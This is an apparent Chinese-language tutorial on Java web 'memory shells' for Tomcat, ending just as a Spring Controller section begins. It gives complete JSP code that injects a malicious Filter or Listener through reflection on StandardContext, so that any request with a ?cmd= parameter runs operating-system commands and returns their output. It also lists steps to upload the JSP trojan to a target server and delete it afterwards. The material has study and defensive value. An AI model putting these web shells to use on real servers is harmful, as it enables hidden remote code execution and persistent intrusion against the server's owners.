

**装载流程的重点在StandardContext部分**

主要是三个方法

```
把 Filter 的定义信息（名称、类/实例、初始化参数）注册进 filterDefs，相当于动态写了 <filter> 标签。
StandardContext.addFilterDef()
```

```
把 Filter 的 URL 映射注册进 filterMaps 并插到最前面，保证请求优先命中该 Filter。
StandardContext.addFilterMapBefore()
```

```
反射实例化 Filter 并调用 init，放进 filterConfigs，让 Filter 真正在请求链中生效。
StandardContext.filterStart()
```

---

### 示例代码

```
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="jakarta.servlet.*, jakarta.servlet.http.*" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%--声明一个恶意Filter--%>
<%!
  public class ShellFilter implements Filter{
    @Override
    public void init(FilterConfig filterConfig){}

    @Override
    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) throws IOException, ServletException {
      String cmd = req.getParameter("cmd");
      if (cmd != null) {
        Process proc = Runtime.getRuntime().exec(cmd);
        BufferedReader br = new BufferedReader(
                new InputStreamReader(proc.getInputStream()));
        String line;
        while ((line = br.readLine()) != null) {
          resp.getWriter().println(line);
        }
        br.close();
      }else {
        chain.doFilter(req,resp);
      }
    }
    @Override
    public void destroy() {}
  }
%>
<%--从ServletContext中获取StandardContext--%>
<%
  // 从request中获取servletContext
  ServletContext servletContext = request.getServletContext();
  // 从servletContext中获取applicationContext
  Field applicationContextField = servletContext.getClass().getDeclaredField("context");
  applicationContextField.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
  // 从applicationContext中获取standardContext
  Field standardContextField = applicationContext.getClass().getDeclaredField("context");
  standardContextField.setAccessible(true);
  StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
<%--动态注册恶意Filter--%>
<%
  // 创建恶意Filter
  ShellFilter filter = new ShellFilter();
  FilterDef def = new FilterDef();
  def.setFilter(filter);
  def.setFilterName("filter-shell");
  def.setFilterClass(filter.getClass().getName());

  // 创建Filtermap用来存储映射关系
  FilterMap map = new FilterMap();
  map.addURLPattern("/*");  // 对所有路径都生效
  map.setFilterName("filter-shell"); // 必须与上述filtername相同

  // 装载关键流程
  standardContext.addFilterDef(def);
  standardContext.addFilterMapBefore(map);
  standardContext.filterStart();
%>
```

访问/filter.jsp之后成功注入内存马

然后我们访问任意url后面添加?cmd=命令即可回显命令执行结果



---

### 触发步骤

1. **上传jsp木马至目标服务器**
2. **访问上传的jsp**
3. **任意路径后面接上?cmd=命令，即可RCE**
4. **（可选）删除.jsp文件**

---

## Listener内存马

Listener 它是 JavaEE 的规范，就是接口。用于监听 JavaWeb 程序中的事件。（如：ServletContext、HttpSession、ServletRequest的创建、修改和删除）

监听器的作用是，监听某种事物的变化。然后通过回调函数，反馈给客户（程序）去做一些相应的处理。

在 JavaWeb 中，可以为某些事件来设置监听器，当事件被触发时，监听器中的指定方法会被调用。

Servlet程序、Filter 过滤器 和 Listener 监听器 并称 WEB 的三大组件。

Listener 的原理是基于观察者模式的，所谓的观察者模式简单来说，就是当被观察者的特定事件被触发（一般在某些方法被调用后），会通知观察者（调用观察者的方法），观察者可以在自己的的方法中来对事件做一些处理。

---

### Java Web中常见的Listener类型

| 类型                   | 触发事件                                                     |
| ---------------------- | ------------------------------------------------------------ |
| ServletContextListener | 在ServletContext创建和关闭时都会通知ServletContextListener监听器。 |
| HttpSessionListener    | 当一个HttpSession刚被创建或者失效（invalidate）的时候，将会通知HttpSessionListener监听 |
| ServletRequestListener | 在ServletRequest创建和关闭时都会通知ServletRequestListener监听器 |

---

### ServletRequestListener的生命周期



---

### 尝试写一个Listener

还是之前的jakarta EE+Tomcat 环境

添加MyListener类

```
package com.example.memshell;

import jakarta.servlet.ServletRequest;
import jakarta.servlet.ServletRequestEvent;
import jakarta.servlet.ServletRequestListener;
import java.io.IOException;

public class MyListener implements ServletRequestListener {
    public void requestInitialized(ServletRequestEvent sre) {
      ServletRequest req = sre.getServletRequest();
      String cmd = req.getParameter("cmd");
      if (cmd != null) {
          try {
              Runtime.getRuntime().exec(cmd);
          } catch (IOException e) {
              throw new RuntimeException(e);
          }
      }
    }
  }
```

修改web.xml配置

```
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="https://jakarta.ee/xml/ns/jakartaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="https://jakarta.ee/xml/ns/jakartaee https://jakarta.ee/xml/ns/jakartaee/web-app_6_0.xsd"
         version="6.0">
    <listener>
        <listener-class>com.example.memshell.MyListener</listener-class>
    </listener>
</web-app>
```

然后测试运行，发现只要当请求参数里有?cmd=命令即可触发监听器，成功命令执行



---

### 注册流程

现在知道了基本原理

探究如何在Web应用运行时注入Listener。

在Listener方法中加入断点，并调试运行后触发断点



查看是谁调用了监听器的这个requestInitialized方法

在调试面板的线程和变量中能看到上一层是fileRequestInitEvent:standardcontext

发现方法是由StandardContext.fireRequestInitEvent()调用



发现调用的就是我们创建的MyListener类的实例化对象的requestIntialied方法



我们再继续找这个Listener对象是哪来的

发现这个Listener是从instance变量中获得，而instance变量又是从instances数组中遍历得来



而instances数组里只有一个对象，也就是我们的MyListener



然后继续找这个instances数组是从哪里来的



发现是从getApplicationEventListeners()方法得来

而这个方法同样是standardcontext中的一个方法

查看这个方法返回的是什么



发现返回的是applicationEventListenersList变量，这个变量是standardcontext类中的一个私有变量

分析到这里已经知道怎么动态注入了，只要把我们的Listener放进这个list中即可

**查找这个变量的引用发现addApplicationEventListener方法，作用就是往list中添加数据**



所以只需要调用这个方法即可

---

### 实现机制

步骤如下

1. **动态创建一个Listener类，**
2. **通过反射获取StandardContext.applicationEventListenersList属性**
3. **将创建的类添加进applicationEventListenersList列表**

---

### 示例代码

```
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="jakarta.servlet.*" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%--声明一个恶意Filter--%>
<%!
    public class ListenerShell implements ServletRequestListener {
        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            ServletRequest req = sre.getServletRequest();
            Class reqClass = req.getClass();
            try {
                Field field = reqClass.getDeclaredField("request");
                field.setAccessible(true);
                Response  resp = ((Request) field.get(req)).getResponse();
                String cmd = req.getParameter("cmd");
                if (cmd != null) {
                    Process proc = Runtime.getRuntime().exec(cmd);
                    BufferedReader br = new BufferedReader(
                            new InputStreamReader(proc.getInputStream()));
                    String line;
                    while ((line = br.readLine()) != null) {
                        resp.getWriter().println(line);
                    }
                    br.close();
                }
            } catch (Exception e) {
                throw new RuntimeException(e);
            }

        }

        @Override
        public void requestDestroyed(ServletRequestEvent servletRequestEvent) {}


    }
%>
<%--从ServletContext中获取StandardContext--%>
<%
    // 从request中获取servletContext
    ServletContext servletContext = request.getServletContext();
    // 从servletContext中获取applicationContext
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
    // 从applicationContext中获取standardContext
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
<%--动态注册恶意Listener--%>
<%
    standardContext.addApplicationEventListener(new ListenerShell());
%>
```

---

### Listener内存马回显

#### **回显固定字符**

怎样让内存马执行之后能够回显，这里分析一下，前面的jsp文件里的恶意Listener监听器里写了回显的语句，但是还是需要了解原理

在requestInitialized()方法处下断点然后调试



这里传入了一个sre，也就是事件源

看一下sre的结构，在sre.request.request下发现response



所以我们只需要通过反射操作这个response拿到输出流，就能向页面输出信息了

```
package com.example.memshell;

import jakarta.servlet.ServletRequest;
import jakarta.servlet.ServletRequestEvent;
import jakarta.servlet.ServletRequestListener;
import java.io.IOException;
import java.lang.reflect.Field;
import org.apache.catalina.connector.Request;

public class MyListener implements ServletRequestListener {
    public void requestInitialized(ServletRequestEvent sre) {
        ServletRequest req = sre.getServletRequest();
        String cmd = req.getParameter("cmd");

        if(cmd != null){
            Class facadeClass = req.getClass();
            try {
            // 反射获取response并写入输出流
                Field requestField = facadeClass.getDeclaredField("request");
                requestField.setAccessible(true);
                Request request = (Request) requestField.get(req);
                request.getResponse().getWriter().println("input: " + cmd);
            } catch (Exception e) {
                throw new RuntimeException(e);
            }
        }

    }
}
```

成功回显




#### **回显命令结果**

```
package com.example.memshell;

import jakarta.servlet.ServletRequest;
import jakarta.servlet.ServletRequestEvent;
import jakarta.servlet.ServletRequestListener;

import java.io.*;
import java.lang.reflect.Field;
import org.apache.catalina.connector.Request;

public class MyListener implements ServletRequestListener {
    public void requestInitialized(ServletRequestEvent sre) {
        ServletRequest req = sre.getServletRequest();
        String cmd = req.getParameter("cmd");

        if(cmd != null){
            Class facadeClass = req.getClass();
            try {
                Field requestField = facadeClass.getDeclaredField("request");
                requestField.setAccessible(true);
                Request request = (Request) requestField.get(req);
                Process proc = Runtime.getRuntime().exec(cmd);

                InputStream stdIn = proc.getInputStream();
                InputStreamReader isr = new InputStreamReader(stdIn);
                BufferedReader br = new BufferedReader(isr);

                String line = null;

                while ((line = br.readLine()) != null)
                    request.getResponse().getWriter().println(line);
            } catch (Exception e) {
                throw new RuntimeException(e);
            }
        }

    }
}
```

成功回显



---

# Spring框架类

## Spring Controller内存马

### Spring Boot项目搭建

通过start.aliyun.com创建Spring Boot项目，版本选择2.4.2

然后添加spring web组件，必须添加spring web组件才能处理web请求



然后选择获取代码，用idea打开

---

### 编写Controller代码

```
package com.example.demo.demos.web;

import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class MyController {
    @RequestMapping(value = "/index")
    public String index() {
        return "index";
    }
}

```



运行DemoApplication，并在浏览器访问localhost:8080/index

---

### 调试过程

因为我们需要在程序运行时动态注册一个Controller，所以我们必须搞清楚Controller的注册过程。

在MyController处打个断点，并调试运行DemoApplication，然后浏览器访问localhost:8080/index

可以看到程序此时停在了断点处

